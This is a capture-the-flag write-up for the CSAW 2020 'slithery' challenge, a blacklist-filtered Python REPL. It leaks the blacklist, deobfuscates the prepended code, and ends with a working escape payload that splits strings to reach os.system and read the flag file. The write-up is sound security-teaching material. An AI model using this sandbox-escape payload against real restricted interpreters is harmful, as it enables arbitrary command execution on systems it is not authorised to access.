 ```yaml
---
title: "CSAW2020 - slithery"
date: 2020-09-17T22:41:28Z
draft: false
---
```


`Setting up a new coding environment for my data science students. Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you help test this before I use it for my class? Two sandboxes should be better than one...`

nc pwn.chal.csaw.io 5011

[sandbox.py](./original.py)

Looking at the file it seems we have a very simple REPL, with some code prepended to every line we write. There is also a blacklist of words, which we do not have access to.

First I started by simply trying to run the file, which obviously didn't work, since I don't have "blacklist", so I just replaced `blacklist.BLACKLIST` with `[]`
Now it did run, and we have a similar shell to the remote one, but without a blacklist. Lets fix that.

```$ echo "print(blacklist.BLACKLIST)" |nc pwn.chal.csaw.io 5011
['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Huh, it just worked.

```py
blacklist = ['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Replace the original `blacklist.BLACKLIST` with `blacklist` and we have an equal shell to theirs.

Now, I wonder if degarbling the `final_cmd` will help?

`uOaoBPLLRN -> sandbox_fd`

`int(((54 * 8) / 16) * (1/3) - 8) -> 1`
`uDwjTIgNRU -> one`

`ORppRjAVZL -> first_line_words_array`

`AAnBLJqtRv -> second_word`

`bAfGdqzzpg -> last_word`

The second word on this file is "base64" and the last word on the first line is "b64decode"
This next line grabs the b64decode sub module and puts its reference in "HrjYMvtxwA" I won't rename this because it might be useful for blacklist evasion.

`X19pbXBvcnRfXw==` decodes to `__import__` and `bnVtcHk=` decodes to... `numpy`?? Numpy pyjail escape?

Anyway, not renaming `RMbPOQHCzt` either, numpy might be useful.

Here is the final file:
```py
#!/usr/bin/env python3
from base64 import b64decode
# import blacklist  # you don't get to see this :p
blacklist = ['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist]):
                raise Exception("not allowed!!")

            final_cmd = """
sandbox_fd = open("sandbox.py", "r")
one = 1
first_line_words_array = sandbox_fd.readlines()[one].strip().split(" ")
second_word = first_line_words_array[one]
last_word = first_line_words_array[-one]
sandbox_fd.close()
HrjYMvtxwA = getattr(__import__(second_word), last_word)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

Try the classic pyjail escape, but try to accomodate for the blacklisted strings.
`print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('ls .'))`
Uh... It worked.

`print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('cat flag.txt'))`
Done!
Seems like the reversing wasn't needed at all.
